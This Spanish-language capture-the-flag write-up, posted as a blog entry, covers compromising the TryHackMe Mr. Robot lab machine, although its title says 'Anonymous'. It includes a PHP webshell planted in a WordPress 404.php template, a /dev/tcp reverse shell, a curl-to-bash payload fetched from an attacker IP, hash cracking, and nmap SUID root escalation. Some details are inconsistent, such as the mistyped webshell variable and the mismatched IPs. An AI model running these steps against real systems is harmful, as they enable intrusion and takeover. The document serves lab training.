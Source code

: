 ```yaml
---
layout: post
title:  "Maquina Anonymous de TryHackMe (No necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de TryHackMe llamada ANONYMOUS
tags: TryHackMe, Mr.Robots, , Wordpress, Web Hacking, , SUID, Writeup, 
---
```


# Anonymous ~ TryHackMe

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.158.107       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.41 seconds
```
Procedemos con la herramienta `Whatweb`:
```bash
"# wtw 10.10.158.107     "                                                                                                                             1 ⨯
http://10.10.158.107 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.158.107], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]
                                                                                                                                                           
"# wtw 10.10.158.107:443  "
http://10.10.158.107:443 [400 Bad Request] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.158.107], Title[400 Bad Request], X-Frame-Options[SAMEORIGIN]
```
Procedemos a hechar un vistazo visual a la pagina web por el puerto 80:

INVESTIGANDO POR LA PAGINA WEB ENCONTRAMOS:

1.- http://10.10.158.107/wp-login.php

2.- http://10.10.158.107/comments/ 		-- SEGUIMOS POR AQUI

3.-Probamos a hacer un Simple Fuzzing web ya que el script de nmap esta tardando muchisimo

4.- Buscamos por la ruta de `robots.txt`:
```bash
Encontramos un diccionario `fsociety.txt`que nos descargamos y la primera flag
```
5.- Seguimos enumerando diferentes archivos a nivel de ruta `license.txt`:
```bash
encontramos esta cadena "ZWxsaW90OkVSMjgtMDY1Mgo="

# echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
	elliot : ER28-0552  		--  que nos permite entrar en el CMS WORDPRESS 
```

# Acceso Inicial desde el Wordpress modificando la plantilla 404.php

Una vez tenemos acceso al Wordpress vamos a repetir el mismo proceso realizado en otras maquinas en la plataforma de HTB mediante en el cual modificando la plantilla de la pagina
404.php por en este caso lo siguiente:
```php
Una webshell facilita para poder ejecutar comandos desde la url
<?php
        system($_RESQUEST['cmd']);
?>
```
Luego nos montamos un servidor que nos postee un `script.sh` que nos envie una R_shell a nuestra IP por el 443:
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.9.4.60/443'
```
Para luego apuntar desde el `404.php` y pipearlo `"[ | ]"` con Bash:
```bash
" http://10.10.158.107/asdfasdfa?cmd=curl%20http://10.9.4.182/script.sh|bash       "			
```
Accedemos y nos hacemos la consola interactiva con `python` esta vez:
```python															
python -c 'import pty; pty.spawn("/bin/bash")	
ctrl+Z
```
Vemos que tenemos un la flag en `/home/robot/user.txt` y que no podemos leerla. Pero podemos ver la pass del user `Robot` almacenada en la misma carpeta.
`robot:c3fcd3d76192e4007dfb49xxxxxxxx` en md5
La crackeamos con `CrackStation.com`
Procedemos a hacer un cambio de usuario con el comando `su` y conseguimos la flag `user.txt`

# Escalada de Privilegios hasta el user Root
Procedemos como siempre a enumerar de distintas formas la maquina:
1.- Permisos SUID
```bash
$ find / -perm -u=s -type f 2>/dev/null
```
```
/usr/bin/nmap --SUID
```
Con el binario de `nmap` como SUID procedemos asi:
```bash
  nmap --interactive
  nmap> !sh  
```
```bash
"robot@linux:~$ /usr/local/bin/nmap --interactive       "
                                                                                                                                                           
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )                                                                                                    
Welcome to Interactive Mode -- press h <enter> for help 

"nmap> !sh  "                                                                                                                                                 
# whoami                                                                                                                                                   
root                                                                                                                                                       
#       
```
Ya estariamos como root y podriamos sacar la flag `root.txt`.
Maquina Mr.Robots Rooteada =) 
